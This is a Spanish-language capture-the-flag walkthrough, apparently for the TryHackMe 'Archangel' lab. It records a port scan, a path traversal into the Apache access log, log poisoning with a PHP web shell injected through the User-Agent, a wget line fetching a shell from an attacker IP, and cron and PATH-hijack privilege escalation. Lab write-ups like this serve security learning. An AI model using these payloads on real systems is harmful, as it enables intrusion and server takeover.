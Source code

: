 ### nmap
```css
```PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f1d2c9d6ca40e4640506fedcf1cf38c (RSA)
|   256 637327c76104256a08707a36b2f2840d (ECDSA)
|_  256 b64ed29c3785d67653e8c4e0481cae6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Web 
![[Pasted image 20231115001626.png]]
Al poner el dominio, ya tenemos la primera flag.

## Fuzzing
```
/robots.txt
/test.php
```

## Path Traversal

mirando el ``/etc/passwd`` 
![[Pasted image 20231115001838.png]]

para ver los logs 
```
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log
```

## User-Agent Spoofing (BurpSuite)

Modificamos el php mediante el parámetro user-Agent:
```php
<?php system($_GET['cmd']);?>
```
![[Pasted image 20231115002021.png]]

Podemos ejecutar comandos mediante el parámetro ``&cmd=``
```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=id
```
![[Pasted image 20231115002056.png]]

Cargamos una shell en php mediante wget. 
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=wget http://10.8.189.249:8000/shell.php
```

## Shell www-data

![[Pasted image 20231115002136.png]]
## movimiento lateral
hay una tarea cron que se ejecuta cada cierto tiempo, tenemos permisos de escritura en este archivo, así que vamos a meterle una shell, para pasarnos al usuario archangel.

![[Pasted image 20231115002205.png]]
![[Pasted image 20231115002239.png]]

## Elevar privilegios
Tenemos un binario ``backup`` que tira de ``cp`` para hacer alguna movida de copia. 

vamos a crear un ``cp`` falso el cual agregamos al path para que nos de una bash cuando ejecutemos el binario 
![[Pasted image 20231115002308.png]]

![[Pasted image 20231115002336.png]]
Al ejecutarlo ya somos root.